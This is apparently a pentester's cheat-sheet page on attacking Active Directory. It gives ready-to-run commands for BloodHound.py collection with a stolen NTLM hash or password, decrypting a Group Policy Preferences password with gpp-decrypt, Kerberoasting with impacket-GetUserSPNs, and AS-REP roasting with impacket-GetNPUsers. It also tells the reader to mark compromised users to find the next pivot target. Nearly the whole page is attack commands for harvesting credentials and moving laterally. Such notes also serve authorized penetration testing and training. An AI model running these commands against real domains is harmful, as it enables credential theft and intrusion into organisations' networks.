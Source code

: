 # Active Directory



## Bloodhound

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns <DC IP> -d <domain> -u <username> -p <password> -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

### Kerberoasting

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```

### AS-REP Roasting

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst | grep krb5asrep
```
